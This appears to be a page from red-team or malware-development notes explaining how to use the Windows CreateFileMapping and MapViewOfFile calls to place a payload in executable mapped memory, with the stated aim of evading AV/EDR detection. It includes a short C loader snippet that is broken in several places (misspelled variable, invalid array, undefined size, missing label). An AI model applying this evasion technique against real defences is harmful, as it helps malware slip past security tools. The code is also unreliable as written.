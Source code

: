 ```yaml
---
description: >-
  Using private memory allocation functions are heavily monitored by AV/EDR.
  Using mapped memory can help circumvent detection.
---
```


# Memory Mapping



***



## CreateFileMapping

[CreateFileMapping](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createfilemappinga) allows a process to create a virtual memory space that maps to the contents of a file on disk or to another memory location. The function returns a handle to the file mapping object.

```c
HANDLE CreateFileMappingA(
  [in]           HANDLE                hFile,
  [in, optional] LPSECURITY_ATTRIBUTES lpFileMappingAttributes,     // Not Required - NULL
  [in]           DWORD                 flProtect,
  [in]           DWORD                 dwMaximumSizeHigh,           // Not Required - NULL
  [in]           DWORD                 dwMaximumSizeLow,
  [in, optional] LPCSTR                lpName                       // Not Required - NULL   
);
```

`hFile` - A handle to a file from which to create a file mapping handle.

`flProtect` - Specifies the page protection of the file mapping object. (`PAGE_EXECUTE_READWRITE)`

`dwMaximumSizeLow` - The size of the file mapping handle returned. (Size of payload)

## M**apViewOfFile**

[MapViewOfFile](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile) maps a view of a file mapping object into the address space of a process.&#x20;

```c
LPVOID MapViewOfFile(
  [in] HANDLE     hFileMappingObject,
  [in] DWORD      dwDesiredAccess,
  [in] DWORD      dwFileOffsetHigh,           // Not Required - NULL
  [in] DWORD      dwFileOffsetLow,            // Not Required - NULL
  [in] SIZE_T     dwNumberOfBytesToMap
);
```

* `hFileMappingObject` - The returned handle from the `CreateFileMapping` WinAPI, which is the file mapping object.
* `dwDesiredAccess` - The type of access to a file mapping object, which determines the page protection of the page created. Should correspond w/ the flProtect attributes in CreateFileMapping.
* `dwNumberOfBytesToMap` - The size of the payload.



<pre class="language-c"><code class="lang-c"><strong>#include &#x3C;stdio.h>
</strong><strong>#include &#x3C;wchar.h>
</strong><strong>#include &#x3C;windows.h>
</strong><strong>
</strong><strong>
</strong><strong>const char pPaylaod[] = [0x00 0x01 0x02 0x03 0x04]
</strong><strong>
</strong><strong>int wmain() {
</strong><strong>	BOOL   bSTATE         = TRUE;
</strong>	HANDLE hFile          = NULL;
	PVOID  pMapAddress    = NULL;


	// Create a file mapping handle with RWX memory permissions
	// This does not allocate RWX view of file unless it is specified in the subsequent MapViewOfFile call  
	hFile = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
	if (hFile == NULL) {
		printf("[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	// Maps the view of the payload to the memory 
	pMapAddress = MapViewOfFile(hFile, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, sPayloadSize);
	if (pMapAddress == NULL) {
		printf("[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}
	
    // Copying the payload to the mapped memory
	memcpy(pMapAddress, pPayload, sPayloadSize);
}
</code></pre>

####

## UnmapViewOfFile

[UnmapViewOfFile](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-unmapviewoffile) is a WinAPI that is used to unmap previously mapped memory. This should be called on cleanup.
